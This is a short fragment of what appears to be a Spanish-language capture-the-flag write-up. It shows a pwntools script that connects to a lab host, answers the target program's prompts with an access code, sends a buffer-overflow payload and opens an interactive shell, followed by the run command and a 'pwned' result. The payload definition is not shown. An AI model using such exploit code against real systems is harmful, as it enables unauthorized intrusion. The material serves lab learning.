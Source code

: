 ``` python
    # Ejecucion de comandos para llegar al BoF en el programa
    context(os='linux', arch='i386')
    host, port = "10.10.10.61", 32812
	
	r = remote(host,port) # Connect
	
	r.recvuntil(b"Enter Bridge Acces code:")
	r.sendline(b"picarda1")
	r.recvuntil(b"Waiting for input:")
	r.sendline(b"4")
	r.recvuntil(b"Enter Security Overrride:")
	r.sendline(payload)  # Lanzamos el payload AAAA...

	r.interactive()


if __name__ == '__main__':
	bufferOverflow()
```
Ejecutar
```
python3 exploit.py 
```
[+] ==pwned!==